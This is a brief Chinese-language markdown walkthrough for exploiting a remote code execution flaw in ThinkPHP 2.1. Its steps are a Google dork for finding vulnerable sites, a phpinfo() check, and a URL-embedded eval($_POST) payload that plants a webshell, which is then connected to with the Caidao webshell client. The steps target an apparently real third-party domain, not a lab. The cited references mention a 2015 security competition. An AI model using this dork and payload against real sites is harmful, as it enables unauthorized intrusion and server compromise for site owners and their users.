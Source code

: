 Thinkpphp2.1漏洞利用:
============================


google搜索:
```
intext:ThinkPHP 2.1 { Fast & Simple OOP PHP Framework }
```

找到网站:
```
https://www.gallantho.com/index.php
```

查看漏洞是否修复:
```
https://www.gallantho.com/index.php/module/aciton/param1/${@phpinfo()}
```

构建webshell地址
```
index.php/module/action/param1/{${eval($_POST[tt])}}
```

菜刀连接:
```
https://www.gallantho.com/index.php/module/aciton/param1/%7B$%7Beval($_POST[tt])%7D%7D 
```
![菜刀连接](1.jpg)
![菜刀虚拟终端](2.jpg)

参考链接:

- [thinkphp 2.1最新漏洞--红黑联盟](https://www.2cto.com/article/201207/144227.html)
- [康师傅某站ThinkPHP 2.1 PHP任意代码执行--红黑联盟](https://www.2cto.com/article/201210/161793.html)
- [05-在线挑战详细攻略-2015中国网络安全大赛：框架漏洞--i春秋 ](https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=2192&highlight=2015%E4%B8%AD%E5%9B%BD%E7%BD%91%E7%BB%9C)
- [2015中国网络安全大赛：框架漏洞真题](http://blog.csdn.net/calmegm/article/details/49744519)